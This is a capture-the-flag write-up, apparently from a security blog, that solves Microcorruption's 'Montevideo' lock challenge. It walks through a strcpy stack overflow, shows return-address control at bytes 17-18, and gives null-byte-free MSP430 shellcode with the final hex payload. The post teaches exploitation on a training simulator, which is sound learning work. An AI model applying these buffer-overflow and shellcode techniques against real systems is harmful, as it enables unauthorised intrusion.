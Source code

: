 ```yaml
---
title: "microcorruption - montevideo"
date: 2018-03-08T18:12:36+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- montevideo
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) called _Whitehorse_. This challenge is titled _Montevideo_.

The challenge has the following description when you start:

> This is Software Revision 03. We have received unconfirmed reports of issues with the previous series of locks. We have reimplemented much of the code according to our internal Secure Development Process.

Cool. So this one is going to be unbreakable right? Lets see!
<!--more-->

## montevideo

Montevideo follows a similar code pattern when compared to some of the previous challenges we have done where a simple `main` routine calls `login`. Looking at `login` itself we can see a few new things:

```asm
44f4 <login>

[.. typical getsn call to get the password ..]

; strcpy, thats new!
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov   #0x64, r13
4522:  0e43           clr   r14
4524:  3f40 0024      mov   #0x2400, r15

; memset is also an interesting one!
4528:  b012 f045      call  #0x45f0 <memset>
452c:  0f41           mov   sp, r15

; probably checks the password again
452e:  b012 4644      call  #0x4446 <conditional_unlock_door>
4532:  0f93           tst   r15

[.. some messages printed to tell if you unlocked or not ..]

4544:  3150 1000      add   #0x10, sp
4548:  3041           ret
```

The calls to `strcpy` and `memset` immediately jumped out at me here. I also figured since there is mention of the password size again the bug here might be related to a stack overflow too. To test this, I threw in like 30 `A`'s into the password field to see if the program breaks.

{{< figure src="/images/microcorruption/montevideo_stack_overflow.png" >}}

> insn address unaligned

Nice! The program counter (`pc`) has `0x4141` which most probably comes from our longer-than-its-supposed-to-be password we supplied. With this bug in mind, I quickly had a look at the other routines to see if there is anything interesting happening there. I set up a total of four breakpoints at the following locations:

- `0x4510` at `getsn`
- `0x451a` at `strcpy`
- `0x4528` at `memset`
- `0x452e` at `conditional_unlock_door`

Inspecting these routines manually, as well as the memory layout after each function had me draw the following conclusions:

- After `getsn` is done, the password buffer lives at `0x2400` in memory.
- Once `strcpy` is done, the password buffer at `0x2400` is copied into a buffer that starts at `0x43ef`.
- After `memset` is done, the password buffer at `0x2400` is zeroed out.
- After `conditional_unlock_door` with a too long password buffer, the stack is corrupt and the return address to `main` overridden.

It seems like this challenge is pretty much exactly the same as previous Whitehorse challenge? The `conditional_unlock_door` routine calls syscall `0x7e`, so with our overflow this is not a useful location to jump to as the "HSM" will validate the password. So, like the previous one, we just need a spot to slide in some shellcode.

Before we can supply the shellcode though, we need to find out where we are overriding and corrupting the stack for that `ret` instruction. For this, I just supplied a bunch of `A`'s and `B`'s and found that at position 17 and 18 again we have control over the programs execution flow.

{{< figure src="/images/microcorruption/monte_video_ret_control.png" >}}

Next, we choose a location in memory where our password buffer is as the address we should jump to (as a result of the `ret`) which should also be the start of our shellcode. I simply copied the unlock shellcode from [Whitehorse](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) which was `30127f00b0123245`. The shellcode itself needs a little work though as the address to the `INT` routine would be different here.

To help with the shellcode modifications we need to do, we can use the assembler/dissasembler provided on microcorruption.com [here](https://microcorruption.com/assembler). Grab the opcodes that form part of our shellcode, paste them into the input box and hit disassemble. Now, with the ASM mnemonics in the input box, update the address to `call` to `0x454c` as that is where it lives in this challenge. Finally, hit assemble and be presented with your shellcode :D

{{< figure src="/images/microcorruption/montevideo_shellcode_1.png" >}}

I figured a good spot to jump to our shellcode would be just after the `ret` address at `0x4400`, so, my password payload was now going to be:

```text
# ret is 0x4400, so 0044 little endian

[padding to ret] +  [ret] +    [shellcode]
---------------------------------------------
    41 * 16      +  0044  +  30127f00b0124c45 =

# final password payload
41414141414141414141414141414141004430127f00b0124c45
```

Sending this password payload, and inspecting the program after a breakpoint at `0x4548` left the program in a confusing state.

{{< figure src="/images/microcorruption/montevideo_strcpy_nullbyte.png" >}}

It was clear that the jump to `0x4400` was taken as the program counter (`pc`) was there, but, my shellcode was missing. Well... if you have ever dealt with `strcpy` before, you may have spotted that this was going to happen as soon as I chose `0x4400` as the address to jump to, as that address contains a nullbyte which is a string terminator for `strcpy`. Easy fix really, just move along two bytes to avoid a `0x00` byte in our payload. With a two byte shift, our password payload looks something like this now:

```text
[padding to ret] +  [ret] +  [pad] + [shellcode]
-----------------------------------------------------
    41 * 16      +  0244  +  4242  + 30127f00b0124c45

414141414141414141414141414141410244424230127f00b0124c45
```

{{< figure src="/images/microcorruption/montevideo_null_byte_shellcode.png" >}}

Snap. We have made some progress, but there is still a null byte in our shellcode because of the opcodes that form part of the `push #0x7f` instruction (`3012 7f00`). We need to get rid of the `0x00` byte. We can simply modify the shellcode to use any other instructions that will eventually push the value `0xf7` to the stack. Think of things like moving a large value into a register, performing arithmetic and then moving the resultant register value onto the stack instead of the original value as is.

I used existing instructions in the program as a reference for ideas on how I can modify the shellcode to avoid null bytes. This was the final shellcode I got to work using the disassembler [here](https://microcorruption.com/assembler):

```asm
mov     #0x117e, r9
sub     #0x10ff, r9
push    r9
call    #0x454c
```

First, I took a large 2 byte value of `0x117e` and moved that to `r9`. I then took a calculator and subtracted the desired value of `0x7f` from `0x117e` and got to `0x10ff`. That resulted in my second instruction of `sub #0x10ff, r9` which should leave the value `0x7f` in register `r9`. Finally, just push `r9` onto the stack and call `INT`.

{{< figure src="/images/microcorruption/montevideo_final_shellcode.png" >}}

So now, my final password payload looks as follows:

```python
python -c "print('41' * 16 + '0244' + '4242' + '39407e113980ff100912b0124c45')"
414141414141414141414141414141410244424239407e113980ff100912b0124c45
```

{{< figure src="/images/microcorruption/montevideo_unlock.png" >}}

Works! `r9` ends up as `0x7f`, pushed to the stack and `INT` is called to unlock the lock.

## solution

Enter `414141414141414141414141414141410244424239407e113980ff100912b0124c45` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
